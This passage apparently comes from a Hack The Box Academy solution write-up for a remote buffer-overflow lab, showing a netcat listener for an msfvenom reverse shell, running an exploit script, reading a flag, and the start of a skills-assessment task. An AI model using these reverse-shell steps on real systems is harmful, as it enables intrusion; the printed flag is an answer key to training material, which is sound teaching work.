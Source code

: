 ```python

exploit()
```

Afterward, students need to start a listener on the port they specified when generating the shellcode using `msfvenom`:

Code: shell

```shell
nc -nvlp PWNPO
```

```
┌─[us-academy-1]─[10.10.14.215]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ nc -nvlp 9001

listening on [any] 9001 ...
```

At last, students need to run the Python exploit script and receive a reverse-shell:

Code: shell

```shell
python3 RemoteBOExploit.py
```

![[HTB Solutions/Others/z. images/46ab58610b58676f49b8ad6c739e2c1e_MD5.jpg]]

If not already in the `C:\Users\remote\Desktop` directory, students need to navigate to it and print the contents of the flag:

```
C:\Users\remote\Desktop>type flag.txt

type flag.txt
HTB{r3m073_buff3r_0v3rfl0w3r}
```

Answer: `HTB{r3m073_buff3r_0v3rfl0w3r}`

# Skills Assessment

## Question 1

### "What is the flag found on the Administrator's Desktop folder you got after gaining remote code execution?"

In Pwnbox/`PMVPN`, students first need to download [assessment.zip](https://academy.hackthebox.com/storage/modules/89/assessment.zip):

Code: shell

```shell
wget https://academy.hackthebox.com/storage/modules/89/assessment.zip 
```
